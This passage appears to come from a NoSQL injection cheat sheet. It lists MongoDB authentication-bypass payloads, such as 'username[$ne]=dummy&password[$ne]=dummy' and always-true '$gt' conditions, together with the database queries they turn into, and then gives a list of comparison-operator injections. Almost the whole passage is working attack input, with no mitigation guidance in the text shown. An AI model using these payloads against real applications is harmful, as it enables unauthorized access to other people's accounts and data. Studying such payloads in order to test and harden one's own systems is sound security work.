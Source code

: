 ### Authentication Bypass Examples

#### Example 1: Basic Authentication Bypass

Normal login request:
```javascript
db.users.find({username: "admin", password: "secret"});
```

Injection payload (POST data or URL parameters):
```
username[$ne]=dummy&password[$ne]=dummy
```

This translates to:
```javascript
db.users.find({username: {$ne: "dummy"}, password: {$ne: "dummy"}});
```

#### Example 2: Using Empty Password or True Condition

```
username=admin&password[$ne]=
```

This translates to:
```javascript
db.users.find({username: "admin", password: {$ne: ""}});
```

#### Example 3: Always True Conditions

```
username[$gt]=&password[$gt]=
```

This translates to:
```javascript
db.users.find({username: {$gt: ""}, password: {$gt: ""}});
```

### NoSQL Operator Injections

#### Comparison Operators

```
# Not equal
username[$ne]=admin

# Greater than
age[$gt]=18

# Less than
price[$lt]=100

# Greater than or equal
quantity[$gte]=10

# Less than or equal
date[$lte]=2023-01-01
```

